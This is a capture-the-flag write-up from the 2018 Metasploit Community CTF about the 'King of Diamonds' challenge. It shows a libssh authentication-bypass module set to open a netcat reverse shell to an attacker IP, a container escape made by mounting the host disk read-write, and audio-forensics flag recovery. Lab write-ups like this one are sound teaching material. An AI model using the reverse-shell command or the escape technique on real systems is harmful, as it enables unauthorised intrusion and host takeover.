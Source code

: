 # King of Diamonds - port 2222

This was the only one on the Ubuntu box that I didn't solve during the CTF, even though I was very close, and the reason was good learning for myself so I don't forget these things in the future.

This was also the box used to escape the container and get into the host filesystem, as described in the [Ubuntu README](https://github.com/ant0/ctf_writeups/tree/master/2018_metasploit_community_ctf/ubuntu#shell-on-ubuntu-host).

I don't have notes written down, but the service on this port was using `libssh` and there was a very easy msf exploit to find.

	use auxiliary/scanner/ssh/libssh_auth_bypass
	set cmd nc 172.16.4.84 6666 -e /bin/sh
	set rhosts 172.16.4.85
	set rport 2222

However, once we got a shell then there was really nothing interesting on the box. I even did a `find .` and slowly went through all files without finding anything useful. Eventually we check what's happening with `mount`:

```
mount
none on / type aufs (rw,relatime,si=1d3b72e49a90ac7e,dio,dirperm1)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
udev on /dev/snd type devtmpfs (rw,nosuid,relatime,size=1002176k,nr_inodes=250544,mode=755)
/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,discard,data=ordered)
/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,discard,data=ordered)
/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,discard,data=ordered)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
```

There is something a little odd here, do you see it?

```
df
Filesystem           1K-blocks      Used Available Use% Mounted on
none                   8065444   6384520   1664540  79% /
tmpfs                  1023148         0   1023148   0% /dev
tmpfs                  1023148         0   1023148   0% /sys/fs/cgroup
udev                   1002176         0   1002176   0% /dev/snd
/dev/xvda1             8065444   6384520   1664540  79% /etc/resolv.conf
/dev/xvda1             8065444   6384520   1664540  79% /etc/hostname
/dev/xvda1             8065444   6384520   1664540  79% /etc/hosts
shm                      65536         0     65536   0% /dev/shm
```

This shows it even better, which is that it's odd that devices are mounted on normal files used by system. This means that wherever the `/etc` files are coming, is probably somewhere that is helping to configure/control this box. Even more interesting are the options given in brackets, looks like even read/write is available!

We try mounting `/dev/xvda1` to a new directory we create.

```
mount -o rw,relatime,discard,data=ordered /dev/xvda1 /test
```

It worked and now we can see the filesystem of the Ubuntu host.

```
ls /test
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

We also verified it was the host, and could now easily capture other flags:

	Linux ip-172-16-4-85 4.4.0-139-generic #165-Ubuntu SMP Wed Oct 24 10:58:50 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

But for the King of Diamonds itself, it was still well hidden. Two hints from Metasploit were:

There are two `king_of_diamonds` hints:

> The flag flies both in time and space,
> Though no one's sure quite when or where.
> New kids at school feel out of place.
> Their voices are loud. But to you, I DFIR.

> I hear you singing in the wire
> I can hear you through the whine
> And the King of Diamonds, is still on the line!
> .. .. .. ..

This heavily hints at some kind of audio/forensic task. I got a meterpreter shell and from the available commands, an interesting one was to start recording from the microphone using `mic_start`. After recording it for a little while and playing it back, I could hear music then some kind of static noise. This would keep on looping. I was pretty convinced that this "static noise" was actually the flag data and I was (almost) right.

![static noise](static_noise.png)

When I cut the audio to only have the static noise, I could not find any trace of PNG signatures. It eventually transpired that Meterpreter uses `arecord` under the hood, but uses a sample rate of 11025Hz. The original recording is 44100Hz, so there was major data lost with my recording! It should have been recording at CD quality, i.e. 44100Hz.

![sample rate](msf_recording_sample_rate.png)

So if I had used `arecord` to capture the audio, which was a binary on the box, then I would have been able to cut out the static noise and stick it all together to re-create the image. Apparently using meterpreter to hear the audio was some kind of side-effect and not intended to work.

The other solution was to trace the audio back to the source, which was a binary called `corey` in the Ubuntu host. This could have been found by looking at system logs, or using `tcpdump` to trace to the source of the audio. From the binary you could directly extract the image using `foremost`, which is a tool that I think is actually better than `binwalk`.

Oh well! Lesson learnt, and it will teach me to always question and validate my thoughts better.

> "Go slow in order to go fast."

![king of diamonds](king_of_diamonds.png)